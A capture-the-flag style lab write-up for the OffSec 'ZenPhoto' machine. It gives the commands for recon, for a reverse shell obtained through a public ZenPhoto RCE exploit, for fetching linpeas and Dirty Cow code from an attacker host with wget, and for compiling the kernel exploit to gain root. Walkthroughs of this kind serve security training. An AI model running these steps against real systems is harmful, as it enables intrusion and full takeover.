








# Lab Report - ZenPhoto


# Overview 
- **Difficulty**: Intermediate
- **Community Rating**: Intermediate
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/zenphoto-174/overview/details
- **Resources**: 
	- [ZenPhoto 1.4.1.4 Unauthenticated RCE PoC (CVE-2011-4825)](https://github.com/XavLimSG/Zenphoto-1.4.1.4-CVE-2011-4825-RCE).
	- [Dirty Cow PoC (CVE-2016-5195)](https://www.exploit-db.com/exploits/40839).

## Resolution Summary 
A vulnerable ZenPhoto install (v1.4.1.4) running on a web application under `/test` on port 80 allows for unauthenticated RCE (`CVE-2011-4825`), leading to a foothold on the target. Afterwards, the target host was vulnerable to the Dirty Cow kernel exploit (CVE-2016-5195), allowing us to gain root access on the machine. 

# Information Gathering 
- To begin with, we scanned the target's ports in order to discover available services and their versions. We noticed a web application running on port 80:
```bash
sudo nmap 192.168.108.41 -p- -sCV
```
<p align="center">
  
</p>


- The web application's root directory did not have much to deal with. Thus, we fuzzed for web directories and found the `/test` directory: 
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://192.168.108.41/FUZZ -t 180 -ic
```
<p align="center">
  
</p>


- After accessing the web page, we discovered a `ZenPhoto` install, which version (`v1.4.1.4`)could be found in the footer of the source page: 
```bash
view-source:http://192.168.108.41/test/
```
<p align="center">
  
</p>


# Exploitation 
- A quick internet research revealed that `ZenPhoto` version `1.4.1.4` was vulnerable to RCE ([CVE-2011-4825](https://www.exploit-db.com/exploits/18083)). 
- We set up a listener: 
```bash
penelope -p 80
```

- Then we used the following [PoC](https://github.com/XavLimSG/Zenphoto-1.4.1.4-CVE-2011-4825-RCE) to gain a reverse shell on the target: 
```bash
python3 18083.py --target 192.168.108.41 --path /test --lhost 192.168.45.213 --lport 80
```
<p align="center">
  
</p>


- We collected the first flag: 
```bash
cat /home/local.txt && id && ip a
```
<p align="center">
  
</p>


# Privilege Escalation 
- Using `linpeas.sh`, we noticed that the target was likely vulnerable to `DirtyCow 2`, a Kernel exploit.
- First, we set up a python HTTP server to serve our `linpeas` binary:
```bash
python3 -m http.server 22
```

- Then we downloaded it and executed it on the target, allowing us to discover the potential Kernel vulnerability (Dirty Cow - [CVE-2016-5195](https://www.exploit-db.com/exploits/40839)):
```bash
wget http://192.168.45.213:22/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -q
```
<p align="center">
  
</p>


- Afterwards, we used the following [PoC](https://www.exploit-db.com/exploits/40839), which we downloaded on our machine than transferred it on the target in the same fashion as before: 
```bash
wget http://192.168.45.213:22/40839.c
```

- Having `gcc` already available on the target, we compiled and ran the exploit, allowing us to gain a root shell.
	- Note that you will be asked to enter a password for the newly created user.
	- Note also that after being done, the exploit may hang, you can exit it with `Ctrl+C`
```bash
gcc -pthread 40839.c -o dirty -lcrypt
ls
./dirty
```
<p align="center">
  
</p>


- Finally, we logged in as our new root user and collected the last flag:
```bash
su firefart
id
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>


# Trophy 
**local.txt → `c10920d05aeb4ad3462a9332aa5390ed`**  

**proof.txt → `4418e1989aaa6dd133cd2b0f01416ffc`**

# Lessons Learned
- Although Kernel exploits are not the first things you would test for, keep in mind that it may simply come down to it sometimes.
